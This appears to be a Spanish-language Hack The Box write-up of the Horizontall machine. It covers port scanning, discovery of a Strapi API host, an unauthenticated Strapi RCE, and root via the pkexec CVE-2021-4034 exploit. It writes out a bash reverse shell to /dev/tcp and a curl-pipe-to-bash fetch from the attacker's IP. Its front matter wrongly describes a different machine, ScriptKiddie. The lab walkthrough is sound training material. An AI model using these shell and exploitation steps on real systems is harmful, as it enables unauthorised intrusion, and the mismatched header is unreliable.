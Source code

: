 ```yaml
---
layout: single
title: ScriptKiddie - Hack The Box
excerpt: "ScriptKiddie is an easy difficulty Linux machine that presents a Metasploit vulnerability ([CVE-2020-7384](https://cve.mitre.org/cgi-bin/cvename.cgi?name=2020-7384)), along with classic attacks such as OS command injection and an insecure passwordless `sudo` configuration. Initial foothold on the machine is gained by uploading a malicious `.apk` file from a web interface that calls a vulnerable version of `msfvenom` to generate downloadable payloads. Once shell is obtained, lateral movement to a second user is performed by injecting commands into a log file which provides unsanitized input to a Bash script that is triggered on file modification. This user is allowed to run `msfconsole` as `root` via `sudo` without supplying a password, resulting in the escalation of privileges. " 
date: 2024-02-24
classes: wide
header:
  teaser: /assets/images/htb-horizontall/Horizontall.png
  teaser_home_page: true
  icon: /assets/images/hackthebox.webp
categories:
  - hackthebox
tags:  
  - Pkexec
  - Strapi
  - Directorios
---
```


![](/assets/images/htb-horizontall/Horizontall.png)

Horizontall is an easy difficulty Linux machine were only HTTP and SSH services are exposed. Enumeration of the website reveals that it is built using the Vue JS framework. Reviewing the source code of the Javascript file, a new virtual host is discovered. This host contains the `Strapi Headless CMS` which is vulnerable to two CVEs allowing potential attackers to gain remote code execution on the system as the `strapi` user. Then, after enumerating services listening only on localhost on the remote machine, a Laravel instance is discovered. In order to access the port that Laravel is listening on, SSH tunnelling is used. The Laravel framework installed is outdated and running on debug mode. Another CVE can be exploited to gain remote code execution through Laravel as `root`. 

## Portscan

```
Ricart0@kali:/home/kali/HTB/Horizontall/nmap -> sudo nmap -p- --open -sS --min-rate 5000 -vvv -n 10.10.11.105 -oG allports
[sudo] contraseña para kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 23:30 CET
Initiating Ping Scan at 23:30
Scanning 10.10.11.105 [4 ports]
Completed Ping Scan at 23:30, 0.06s elapsed (1 total hosts)
Initiating SYN Stealth Scan at 23:30
Scanning 10.10.11.105 [65535 ports]
Discovered open port 80/tcp on 10.10.11.105
Discovered open port 22/tcp on 10.10.11.105
Completed SYN Stealth Scan at 23:30, 12.20s elapsed (65535 total ports)
Nmap scan report for 10.10.11.105
Host is up, received echo-reply ttl 63 (0.071s latency).
Scanned at 2024-02-21 23:30:41 CET for 12s
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack ttl 63
80/tcp open  http    syn-ack ttl 63

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 12.47 seconds
           Raw packets sent: 65841 (2.897MB) | Rcvd: 65841 (2.634MB)

```
Y con esto analizamos los puertos abiertos:
```
Ricart0@kali:/home/kali/HTB/Horizontall/nmap -> nmap -sCV -p22,80 10.10.11.105 -oN targeted
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-02-21 23:34 CET
Nmap scan report for 10.10.11.105
Host is up (0.053s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 ee:77:41:43:d4:82:bd:3e:6e:6e:50:cd:ff:6b:0d:d5 (RSA)
|   256 3a:d5:89:d5:da:95:59:d9:df:01:68:37:ca:d5:10:b0 (ECDSA)
|_  256 4a:00:04:b4:9d:29:e7:af:37:16:1b:4f:80:2d:98:94 (ED25519)
80/tcp open  http    nginx 1.14.0 (Ubuntu)
|_http-title: Did not follow redirect to http://horizontall.htb
|_http-server-header: nginx/1.14.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 9.43 seconds
```
## Directorios existentes

Obtenemos del escaneo de puertos la url de http://horizontall.htb, asi que vamos a adentrarnos a ver que tiene, y vemos que no hay nada que explotar, por tanto, vamos a buscar directorios existentes de la página web a ver si podemos encontrar algo: 
```
Dirsearch started Wed Feb 21 23:52:50 2024 as: /usr/lib/python3/dist-packages/dirsearch/dirsearch.py -u http://horizontall.htb/

301   194B   http://horizontall.htb/js    -> REDIRECTS TO: http://horizontall.htb/js/
301   194B   http://horizontall.htb/css    -> REDIRECTS TO: http://horizontall.htb/css/
200     4KB  http://horizontall.htb/favicon.ico
301   194B   http://horizontall.htb/img    -> REDIRECTS TO: http://horizontall.htb/img/
403   580B   http://horizontall.htb/js/
```
Comprobamos su contenido y no deja entrar en ningun directorio.
Asi que lanzamos un curl a la url de tipo get para analizar el contenido de la pagina y posibles urls en el código, lo filtramos para que nos muestre lo que hay entre comillas '".*?"' y que contienen app, tambien que no se repita ningun resultado:
```
Ricart0@kali:/home/kali/HTB/Horizontall -> curl -s -X GET "http://horizontall.htb/" | grep -oP '".*?"' | grep app\. | sort -u
"app"
"/css/app.0f40a091.css"
"/js/app.c68eb462.js"
```
Ahora si, en el contenido de "/js/app.c68eb462.js", encontramos contenido, asi que volvermos a filtrar por comillas,  en busca de una url, y filtramos por http para encontrar url's.

```
curl -s -X GET "http://horizontall.htb/js/app.c68eb462.js" | grep -oP '".*?"' | grep http | sort -u                                                                 130 ⨯
"http://api-prod.horizontall.htb/reviews"
"https://horizontall.htb"
"http://www.w3.org/2000/svg"
```

## Página web

Encontramos esta url que parece tener contenido "http://api-prod.horizontall.htb/reviews", asi que la añadimos a /etc/hosts y buscamos en el navegador.

Una vez sabido esto, podemos volver a hacer una búsqueda de directorios como antes, en la nueva pagina web. Esto nos devuelve que existe un directorio /admin, que si ejecutamos en el navegador nos lleva a un panel de autenticación:

![](/assets/images/htb-horizontall/pagina1.png)

Como vemos es un strapi, asi que vamos a buscar posibles sploits para ejecutar:
```
Ricart0@kali:/home/kali/HTB/Horizontall -> searchsploit strapi                                                    
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                     |  Path
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Strapi 3.0.0-beta - Set Password (Unauthenticated)                                                                                                                                 | multiple/webapps/50237.py
Strapi 3.0.0-beta.17.7 - Remote Code Execution (RCE) (Authenticated)                                                                                                               | multiple/webapps/50238.py
Strapi CMS 3.0.0-beta.17.4 - Remote Code Execution (RCE) (Unauthenticated)                                                                                                         | multiple/webapps/50239.py
Strapi CMS 3.0.0-beta.17.4 - Set Password (Unauthenticated) (Metasploit)                                                                                                           | nodejs/webapps/50716.rb
----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

## Intrusión
Tenemos un sploit para la ocasion en la que no estamos autenticados, lo vamos a usar:
![](/assets/images/htb-horizontall/int1.png)

Ya tendriamos ejecucion de comandos, asi que vamos a intentar montarnos una reverse shell mandando un curl a nuestra ip, montandonos un servidor en python3 y escuchando por el puerto 443. Creamos un index.html que devuelva una bash:
```
Ricart0@kali:/home/kali/HTB/Horizontall/exploits -> cat index.html         
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.6/443 0>&1 
```
Y ahora mandamos un curl y que lo interprete con bash: curl http://10.10.16.6/ | bash
Y nos montamos el servidor en python(python3 -m http.server 80) y escucha por el puerto 443(nc -nvlp 443). Y estamos dentro:
![](/assets/images/htb-horizontall/int2.png)

## Escalada de privilegios

En el directorio home encontramos la flag del usuario:
```
strapi@horizontall:/home/developer$ cat user.txt
cat user.txt
a3eb4b24b2c7c90ec8bfcde966163c55
```
Ahora toca escalar privilegios para obtener la flag de root. Vemos que pkexec se ecuentra disponible, muy vulnerable:
```
strapi@horizontall:~/myapi/config/environments/development$ which pkexec
which pkexec
/usr/bin/pkexec
```
Desde nuestra terminal, vamos a clonarnos este repositorio https://github.com/berdav/CVE-2021-4034 que nos va a escalar el privilegio mediante pkexec, la comprimimos (zip -r comprimido.zip CVE-2021-4034). Desde el equipo de la víctima, obtenemos el zip de nuestro equipo(wget http://10.10.16.6/comprimido.zip). Lo descomprimimos, hacemos make, y lo ejecutamos:
```
strapi@horizontall:~/myapi/config/environments/development/CVE-2021-4034$ ./cve-2021-4034
<ronments/development/CVE-2021-4034$ ./cve-2021-4034                      
whoami
root
```
A partir de ahi, buscamos la flag de root y ya lo tenemos. 
